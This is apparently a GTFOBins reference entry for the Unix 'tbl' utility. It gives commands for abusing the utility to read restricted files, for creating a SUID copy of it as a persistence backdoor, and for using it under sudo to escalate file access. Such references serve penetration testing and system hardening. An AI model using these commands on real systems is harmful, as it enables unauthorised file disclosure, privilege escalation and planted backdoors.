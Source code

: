 # GTFOBin: tbl

The read file content is corrupted by additional text at the beginning.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
tbl $LFILE
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which tbl) .

LFILE=file_to_read
./tbl $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo tbl $LFILE
```
